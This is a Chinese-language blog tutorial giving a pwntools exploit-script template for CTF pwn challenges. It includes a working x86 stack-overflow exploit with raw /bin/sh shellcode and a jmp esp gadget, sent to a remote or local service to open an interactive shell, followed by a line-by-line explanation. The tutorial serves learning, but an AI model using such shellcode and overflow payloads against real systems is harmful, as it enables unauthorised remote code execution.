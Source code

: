 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      Pwn脚本               # 标题 
subtitle:   pwn脚本 #副标题
date:       2018-10-03             # 时间
author:     XT                      # 作者
header-img: img/post-bg-alibaba.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - pwn
---
```


# pwn脚本模板
>这是**pwn脚本模板**的简介



## 1. 大致框架

官网的一个简单样例

```
from pwn import *
context(arch = 'i386', os = 'linux')
r = remote('exploitme.example.com', 31337)
# EXPLOIT CODE GOES HERE
r.send(asm(shellcraft.sh()))
r.interactive()
```


自己测试的

```

from pwn import *
sh = process('./boverflow')
context(arch = 'i386', os = 'linux')
r = remote('127.0.0.1', 9999)
shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"
sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (0x20 - len(shellcode_x86)) * 'b'+ 'bbbb' + p32(jmp_esp) + sub_esp_jmp
#print payload
r.sendline(payload)
r.interactive()

```

基本上仿造这个格式就可以写exp了。

```
from pwn import *
```

用来导入pwntools模块

```
context(arch = 'i386', os = 'linux')
```

设置目标机的信息

```
r = remote('exploitme.example.com', 31337)
```

用来建立一个远程连接，url或者ip作为地址，然后指明端口

这里也可以仅仅使用本地文件,调试时方便:

```
r = process("./boverflow")
```

boverflow即为文件名,这使得改变远程和本地十分方便.

```
asm(shellcraft.sh())
```

asm()函数接收一个字符串作为参数，得到汇编码的机器代码。 
 比如

```
>>> asm('mov eax, 0')
'\xb8\x00\x00\x00\x00'12
```

shellcraft模块是shellcode的模块，包含一些生成shellcode的函数。

其中的子模块声明架构，比如shellcraft.arm 是ARM架构的，shellcraft.amd64是AMD64架构，shellcraft.i386是Intel 80386架构的，以及有一个shellcraft.common是所有架构通用的。

而这里的shellcraft.sh()则是执行/bin/sh的shellcode了

r.send()将shellcode发送到远程连接

最后，

```
r.interactive()
```

将控制权交给用户，这样就可以使用打开的shell了



## Context设置

`context`是pwntools用来设置环境的功能。在很多时候，由于二进制文件的情况不同，我们可能需要进行一些环境设置才能够正常运行exp，比如有一些需要进行汇编，但是32的汇编和64的汇编不同，如果不设置context会导致一些问题。

一般来说我们设置context只需要简单的一句话:

```
context(os='linux', arch='amd64', log_level='debug')
```

这句话的意思是： 

1. os设置系统为linux系统，在完成ctf题目的时候，大多数pwn题目的系统都是linux 
2. arch设置架构为amd64，可以简单的认为设置为64位的模式，对应的32位模式是’i386’ 
3. log_level设置日志输出的等级为debug，这句话在调试的时候一般会设置，这样pwntools会将完整的io过程都打印下来，使得调试更加方便，可以避免在完成CTF题目时出现一些和IO相关的错误。
